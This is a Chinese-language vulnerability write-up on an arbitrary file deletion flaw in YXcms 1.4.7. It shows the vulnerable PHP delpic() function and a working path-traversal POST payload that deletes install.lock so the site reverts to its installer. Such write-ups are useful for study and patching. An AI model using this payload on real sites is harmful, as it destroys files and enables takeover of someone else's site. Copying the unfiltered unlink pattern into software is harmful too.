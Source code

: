 ```yaml
---
title: "YXCMS 1.4.7任意文件删除"
id: zhfly3298
---
```


# YXcms 1.4.7 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到$picname接收POST过来的值，然后$path等于文件开头定义的静态变量 static protected $uploadpath='';//图片上传路径 没有对传入的值进行任何的过滤，使用函数file_exists()判断一下文件是否存在就给unlink执行删除文件了。

```
public function delpic()
{
    if(empty($_POST['picname'])) $this->error('参数错误~');
    $picname=$_POST['picname'];
    $path=$this->uploadpath;
    if(file_exists($path.$picname))
      @unlink($path.$picname);
    else{echo '图片不存在~';return;} 
    if(file_exists($path.'thumb_'.$picname))
       @unlink($path.'thumb_'.$picname);
    else {echo '缩略图不存在~';return;}
    echo '原图以及缩略图删除成功~';
} 
```

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

```
http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic 
```

POST：

```
picname=../../protected/apps/install/install.lock 
```

![image](../img/9257e1af6fa849b1119cd9aa1ff17a67.png)

然后访问网站首页就会自动转到安装的页面

![image](../img/aa5298005bebc7b3745ff1407d144c4b.png)

看到目录下的install.lock文件已经被删除了

![image](../img/164da8c3a37baecdc59b91826daf9f1d.png)